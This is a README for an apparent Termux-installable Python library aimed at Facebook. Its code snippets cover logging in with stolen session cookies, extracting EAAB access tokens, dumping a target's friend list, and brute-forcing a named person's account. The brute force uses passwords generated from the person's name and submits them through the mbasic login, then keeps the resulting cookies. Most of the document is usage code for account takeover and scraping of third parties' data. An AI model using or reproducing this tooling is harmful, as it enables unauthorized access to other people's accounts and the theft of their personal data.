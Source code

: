 # Facebook
Library sederhana yang dibuat dengan metode scraping.

installation in termux.
```python
$ pkg update && pkg upgrade
$ pkg install python git -y
$ pip install git+https://github.com/tukiphanz/fb
```

# Facebook: login session
Login to the library using session.
```python
import requests
from facebook import Facebook

session = requests.session()
session.cookies['cookie'] = 'your Facebook cookies'
fb = Facebook(session)
```

# Facebook: get eaab token
Please use the login code above first.
```python
response = fb.scrape_token() # output dictonary
print(response)
```
example output if successful.
```python
{'status': True, 'date': '8/7/2024', 'data': {'token': '...', 'cookies': '...'}, 'coder': {...}}
```

# Facebook: dump friendlist
Make sure the target account's friendships are public or you have to be friends with the target.
Please use the login code above first.
```python
id = '1000083836282828' # example
token = fb.token
cursor = None # The second request of dump_friendlist will return a cursor, please use it.
response = fb.dump_friendlist(id=target_id, token=token, cursor=cursor) # output dictonary
print(response)
```
example output if successful.
```python
{}
```

# Bruteforce
```python
from facebook import Bruteforce

id = '1000083836282828' # example
name = 'ayunda sari'
bf = Bruteforce(id=id, name=name)
```

# Bruteforce: password generator
Please use the login code above first.
```python
response = bf.password_generator(name=name) # otuput list
print(response)
```
example output
```python
['ayunda123', 'ayunda1234', 'ayunda12345', 'ayunda321', 'sari123', 'sari1234', 'sari12345', 'sari321', 'ayundaayunda', 'sarisari', 'ayunda sari']
```

# Bruteforce: login mbasic
Please use the login code above first.
```python
response = bf.login(id=id, password=password) # output dict
print(response)
```
example output if successful.
```python
{'status': True, 'date': '...', 'data': {}, 'coder': {...}}
```
For example, take the cookies.
```python
cookies = bf.gyatt.cookies.get_dict() # output dict
print(cookies)
```
